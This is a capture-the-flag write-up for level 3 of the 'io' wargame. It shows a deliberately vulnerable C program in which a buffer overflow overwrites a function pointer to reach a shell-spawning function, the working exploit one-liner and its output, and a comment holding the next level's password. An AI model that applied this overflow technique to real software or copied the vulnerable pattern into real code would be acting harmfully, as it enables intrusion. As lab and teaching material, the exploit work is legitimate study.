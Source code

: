 ## Level 3:

Again we have access to the source file:

```c
  1 //bla, based on work by beach
  2 
  3 #include <stdio.h>
  4 #include <string.h>
  5 
  6 void good()
  7 {
  8         puts("Win.");
  9         execl("/bin/sh", "sh", NULL);
 10 }
 11 void bad()
 12 {
 13         printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
 14 }
 15 
 16 int main(int argc, char **argv, char **envp)
 17 {
 18         void (*functionpointer)(void) = bad;
 19         char buffer[50];
 20 
 21         if(argc != 2 || strlen(argv[1]) < 4)
 22                 return 0;
 23 
 24         memcpy(buffer, argv[1], strlen(argv[1]));
 25         memset(buffer, 0, strlen(argv[1]) - 4);
 26 
 27         printf("This is exciting we're going to %p\n", functionpointer);
 28         functionpointer();
 29 
 30         return 0;
 31 }
 32 

```

Looking at it, it is obvious that we need to overflow the bufferr and set the poointer for the function we want to execute. In this case we want to execute good().

Running it with some random input also gives us a hint by showing the address of the function we want to execute:

```console
level3@io:/levels$ ./level03 overflow
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

To figure out how many bytes we need to overflow the buffer and other stuff we can first 

```console
level3@io:/levels$ ./level03 $(python -c 'print "\x41" * 76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.3$ 
```

Now we just cat the .pass to get the password for level4

<!-- Level 4 password => 7WhHa5HWMNRAYl9T -->